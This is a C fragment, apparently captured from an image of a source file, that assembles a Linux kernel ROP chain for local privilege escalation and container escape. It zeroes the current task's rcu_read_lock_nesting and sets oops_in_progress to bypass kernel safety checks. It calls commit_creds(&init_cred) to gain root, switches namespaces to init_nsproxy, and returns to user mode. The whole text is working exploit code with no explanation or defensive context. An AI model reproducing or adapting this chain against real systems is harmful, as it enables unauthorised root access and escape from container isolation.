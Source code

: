 ```c
    data[i++] = getpid();
    data[i++] = kbase + FIND_TASK_BY_VPID;

    // current += offsetof(struct task_struct, rcu_read_lock_nesting)
    data[i++] = kbase + POP_RSI_RET;
    data[i++] = RCU_READ_LOCK_NESTING_OFF;
    data[i++] = kbase + ADD_RAX_RSI_RET;

    // current->rcu_read_lock_nesting = 0 (Bypass rcu protected section)
    data[i++] = kbase + POP_RCX_RET;
    data[i++] = 0;
    data[i++] = kbase + MOV_RAX_RCX_RET;

    // Bypass "schedule while atomic": set oops_in_progress = 1
    data[i++] = kbase + POP_RDI_RET;
    data[i++] = 1;
    data[i++] = kbase + POP_RSI_RET;
    data[i++] = kbase + OOPS_IN_PROGRESS;
    data[i++] = kbase + MOV_RSI_RDI_RET;

    // commit_creds(&init_cred)
    data[i++] = kbase + POP_RDI_RET;
    data[i++] = kbase + INIT_CRED;
    data[i++] = kbase + COMMIT_CREDS;

    // find_task_by_vpid(1)
    data[i++] = kbase + POP_RDI_RET;
    data[i++] = 1;
    data[i++] = kbase + FIND_TASK_BY_VPID;

    data[i++] = kbase + POP_RSI_RET;
    data[i++] = 0;

    // switch_task_namespaces(find_task_by_vpid(1), &init_nsproxy)
    data[i++] = kbase + MOV_RDI_RAX_RET;
    data[i++] = kbase + POP_RSI_RET;
    data[i++] = kbase + INIT_NSPROXY;
    data[i++] = kbase + SWITCH_TASK_NAMESPACES;

    data[i++] = kbase + SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE;
    data[i++] = 0;
    data[i++] = 0;
    data[i++] = _user_rip;
    data[i++] = _user_cs;
    data[i++] = _user_rflags;
    data[i++] = _user_sp;
    data[i++] = _user_ss;
}
```